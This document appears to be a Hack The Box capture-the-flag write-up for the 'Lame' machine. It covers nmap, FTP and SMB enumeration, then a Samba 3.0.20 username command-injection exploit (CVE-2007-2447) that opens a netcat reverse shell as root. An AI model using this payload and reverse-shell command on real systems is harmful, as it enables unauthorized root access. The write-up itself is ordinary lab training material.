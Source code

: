 #  Lame

![lame_machine_info_card](./assets/lame_machine_info_card.png)

Machine: [https://app.hackthebox.com/machines/Lame](https://app.hackthebox.com/machines/Lame)

Created by: [ch4p](https://app.hackthebox.com/users/1)

Difficulty: Easy

OS: Linux

## Machine Info

Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement. 

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/lame$ nmap -sV -sC -oN lame-sv-nmap.log 10.10.10.3
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-26 16:02 JST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.23 seconds
labadmin@labmachine:~/lame$ nmap -Pn -sV -sC -oN lame-sv-nmap.log 10.10.10.3
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-26 16:02 JST
Nmap scan report for 10.10.10.3
Host is up (0.38s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-26T03:04:10-04:00
|_clock-skew: mean: 2h00m21s, deviation: 2h49m46s, median: 18s
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.82 seconds
```

Nmap reveals 4 ports.
- 21/tcp  open  ftp         vsftpd 2.3.4
- 22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
- 445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

### FTP port 21

We can login the ftp `anonymous/anonymous` credentials. But we find nothing there.

```shell
labadmin@labmachine:~/lame$ ftp 10.10.10.3
Connected to 10.10.10.3 (10.10.10.3).
220 (vsFTPd 2.3.4)
Name (10.10.10.3:labadmin): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
227 Entering Passive Mode (10,10,10,3,148,150).
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

### Samba port 139/445

We try to list the available shares and run into this issue.

```shell
smbclient -L 10.10.10.3
Protocol negotiation to server 10.10.10.3 (for a protocol between SMB2_02 and SMB3) failed: NT_STATUS_CONNECTION_DISCONNECTED
```

This is due to use of different Samba version and we add the following under `global` in `/etc/samba/smb.conf` to ensure compatibility.

```shell
[global]
        client min protocol = CORE
        client max protocol = SMB3
```

Now we use try list the shares again leaving the password blank. We find 5 shares and that the Samba version is 3.00.20-Debian.

```shell
labadmin@labmachine:~/lame$ smbclient -L 10.10.10.3
Password for [SAMBA\labadmin]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

```

The share `tmp` with comment `oh noes!` looks interesting. We connect it, once again using bland password.

```shell
labadmin@labmachine:~/lame$ smbclient \\\\10.10.10.3\\tmp
Password for [SAMBA\labadmin]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun 26 16:50:50 2024
  ..                                 DR        0  Sat Oct 31 15:33:58 2020
  5583.jsvc_up                        R        0  Wed Jun 26 15:57:43 2024
  .ICE-unix                          DH        0  Wed Jun 26 15:56:40 2024
  vmware-root                        DR        0  Wed Jun 26 15:56:57 2024
  .X11-unix                          DH        0  Wed Jun 26 15:57:07 2024
  .X0-lock                           HR       11  Wed Jun 26 15:57:07 2024
  vgauthsvclog.txt.0                  R     1600  Wed Jun 26 15:56:37 2024

                7282168 blocks of size 1024. 5386504 blocks available
smb: \> 
```

We could download `vgauthsvclog.txt.0` but it didn't gave anything.

```shell
smb: \> mget *
Get file 5583.jsvc_up? y
NT_STATUS_ACCESS_DENIED opening remote file \5583.jsvc_up
Get file .X0-lock? y
getting file \.X0-lock of size 11 as .X0-lock (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
Get file vgauthsvclog.txt.0? y
getting file \vgauthsvclog.txt.0 of size 1600 as vgauthsvclog.txt.0 (0.8 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

Searching online for Samba version 3.0.20 we find this vulnerability that allows remote attackers to execute arbitrary commands. It allows to run commands via the username parameter.

[https://www.cve.org/CVERecord?id=CVE-2007-2447](https://www.cve.org/CVERecord?id=CVE-2007-2447)
[https://www.samba.org/samba/security/CVE-2007-2447.html](https://www.samba.org/samba/security/CVE-2007-2447.html)

We will use this to setup a reverse shell.

First we setup a local Netcat listener.

```shell
labadmin@labmachine:~/lame$ nc -lvnp 6000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6000
Ncat: Listening on 0.0.0.0:6000
```

Next we will execute `logon` in the samba server with our payload to connect our local listener for reverse shell. For password leave blank and hit enter.

```shell
smb: \> logon "/=`nohup nc 10.10.16.17 6000 -e /bin/bash`"
Password: 

```

And back to our locla listener and we have reverse shell as root.

```shell
labadmin@labmachine:~/lame$ nc -lvnp 6000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6000
Ncat: Listening on 0.0.0.0:6000
Ncat: Connection from 10.10.10.3:45573.
whoami
root

```

And we upgrade shell to full TTY by python.


```shell
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/#
```

User flag we found under makis.

```shell
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
[...OMITTED...]

```

Root flag we find under root.

```shell
root@lame:/# cat /root/root.txt
cat /root/root.txt
[...OMITTED...]

```
